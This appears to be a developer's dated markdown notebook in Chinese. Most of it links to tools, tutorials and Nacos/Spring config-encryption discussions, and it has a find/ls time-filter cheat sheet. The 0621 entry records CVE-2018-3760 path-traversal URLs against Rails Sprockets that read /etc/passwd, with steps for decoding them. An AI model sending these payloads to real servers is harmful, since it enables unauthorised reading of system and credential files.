 https://gitee.com/pptist/PPTist
一个基于 Vue3.x + TypeScript 的在线演示文稿应用，实现PPT幻灯片的在线编辑、演示。还原了大部分PPT常用功能，支持 文字、图片、形状、线条、图表、表格 6种最常用的元素类型，每一种元素都拥有高度可编辑能力，同时支持丰富的快捷键和右键菜单，尽可能还原本地桌面应用的使用体验。
https://gitee.com/gitee-community/gitee-8th-collections-producer/blob/master/%E6%98%9F%E9%80%89%E9%9B%86%E4%BD%9C%E5%93%81%E5%B1%95%E7%A4%BA.md
Gitee / 寻找最佳星选集制作人

Office文件转换预览解决方案	
https://cloud.tencent.com/developer/article/1647162

[记一次从未授权页面到 GetShell](https://www.freebuf.com/articles/web/275199.html)

IntelliJ IDEA 简体中文专题教程
https://github.com/judasn/IntelliJ-IDEA-Tutorial
一个全栈增长工程师的练手项目集. A Growth Engineering Idea in Action.
https://github.com/phodal/ideabook

## 0622

nacos-console配置敏感数据持久化加密存储 #492
https://github.com/alibaba/nacos/issues/492
https://github.com/alibaba/nacos/issues/5695
[Summer 2021] Add a plugin SPI for configuration encryption and decryption for Nacos 2.0 #5695


Spring Boot： 加密应用配置文件敏感信息
https://juejin.cn/post/6844903520546586637
Spring Cloud Config 加密和解密
https://blog.csdn.net/qq_40354025/article/details/78269284


[linux的find命令--按时间查找文件](https://blog.csdn.net/ytmayer/article/details/6364739)
fd 好像没有这个

```bash
----(+n)---------|------------(n)--------------|---------(-n)----
   (n+1)*24H前   |    (n+1)*24H ~ n*24H之间  |  n*24H以内
-ctime -n    查找距现在 n*24H 内修改过的文件
-ctime n    查找距现在 n*24H 前, (n+1)*24H 内修改过的文件
-ctime +n    查找距现在 (n+1)*24H 前修改过的文件
[a|c|m]min    [最后访问|最后状态修改|最后内容修改]min 
[a|c|m]time    [最后访问|最后状态修改|最后内容修改]time

#ls -lt    ./  按修改时间顺序查看
#ls -lut ./ 按访问时间顺序查看
```
## 0621

https://www.hacking8.com/bug-product/Ruby-On-Rails/CVE-2018-3760-Ruby-On-Rails-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.html

http://www.0-sec.org:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
http://www.0-sec.org:3000/assets/file:///usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
使用： https://tool.chinaz.com/tools/urlencode.aspx 进行转换
http://www.0-sec.org:3000/assets/file:///usr/src/blog/app/assets/images/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
再进行一次转换
http://www.0-sec.org:3000/assets/file:///usr/src/blog/app/assets/images/../../../../../../etc/passwd
